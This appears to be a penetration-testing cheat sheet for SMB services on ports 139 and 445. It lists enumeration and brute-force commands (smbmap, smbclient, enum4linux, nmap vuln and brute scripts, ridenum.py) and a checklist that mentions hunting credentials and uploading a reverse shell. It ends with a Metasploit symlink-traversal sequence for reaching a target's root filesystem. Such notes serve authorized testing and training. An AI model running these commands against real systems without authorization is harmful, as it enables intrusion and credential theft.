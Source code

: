 # 139/445 - SMB

## Enumeration

### searchsploit

```bash
searchsploit <service info>  # Use searchsploit on nmap Service output details
```

### smbmap

```bash
smbmap -H <IP>
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient //<IP>/<SHARE>  # Connect to an available share
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.
